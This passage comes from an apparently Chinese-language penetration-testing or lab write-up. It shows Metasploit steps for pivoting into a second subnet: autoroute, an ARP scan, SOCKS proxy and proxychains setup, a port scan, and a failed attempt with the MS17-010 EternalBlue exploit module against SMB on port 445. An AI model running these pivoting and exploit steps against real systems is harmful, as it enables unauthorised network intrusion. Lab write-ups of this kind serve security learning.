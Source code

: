 前面知道有第二张网卡，那么接着整  

MSF 添加路由

```
run autoroute -s 192.168.138.0/24
```

![](https://mmbiz.qpic.cn/mmbiz_png/EG5vnf7iaBIyoEJUhw2osOmP8bKclPTtk3oXmDK12h9U0eDrdzjGYx4MBxMiaMheuiaickpJajAwsUj1ic7jvUGteTA/640?wx_fmt=png)

查看路由  

```
run autoroute -p
```

![](https://mmbiz.qpic.cn/mmbiz_png/EG5vnf7iaBIyoEJUhw2osOmP8bKclPTtkFWPxoK9jtV6T5QRNup9KjUKmjvK6ggIH0jTFGhUQTeaqWLOKIRxoHQ/640?wx_fmt=png)

扫一下存活主机  

```
run arp-scanner -r 192.168.138.0/24
```

![](https://mmbiz.qpic.cn/mmbiz_png/EG5vnf7iaBIyoEJUhw2osOmP8bKclPTtk4snCIic5ibecxzlEEsaFdNMhLcDtFy0IKricvpyqEyib3uL9WYemGqdribQ/640?wx_fmt=png)

得到信息：192.168.138.138  

设置 sock5 代理, 我这里又出问题了。。。。哎。。。太菜了，有没有巨佬帮帮弟弟

```
use auxiliary/server/socks_proxy
set srvport 9050
vim /etc/proxychains4.conf
```

![](https://mmbiz.qpic.cn/mmbiz_png/EG5vnf7iaBIyoEJUhw2osOmP8bKclPTtkjo49ZerCjVLPAsInVdC2uicZB3ZC7bwynTZbQUsbWOWqQe2BfhPZIIA/640?wx_fmt=png)

扫描一下端口  

```
use auxiliary/scanner/portscan/tcp
```

![](https://mmbiz.qpic.cn/mmbiz_png/EG5vnf7iaBIyoEJUhw2osOmP8bKclPTtkOyHgE3tJ5M1zCKLiaDAsS9491o9CuZHF63icmFAyfE5k9aPkfwm0du1w/640?wx_fmt=png)

得到信息：只开放了 445 端口  

![](https://mmbiz.qpic.cn/mmbiz_png/EG5vnf7iaBIyoEJUhw2osOmP8bKclPTtkFmx4PwFbjRLO4oE8nPCtCQNpK4lt38iarX2aHryV1GCz4MicdYZwbzjA/640?wx_fmt=png)

使用 MS17-010 打一下试试看  

```
use exploit/windows/smb/ms17_010_eternalblue
```

![](https://mmbiz.qpic.cn/mmbiz_png/EG5vnf7iaBIyoEJUhw2osOmP8bKclPTtkTSvTy3vWD5G65MV60JGSb2KSklQLjsK6jgWBz4yViaDlLOYtoAraJRw/640?wx_fmt=png)

不过失败了，不过也不要紧  
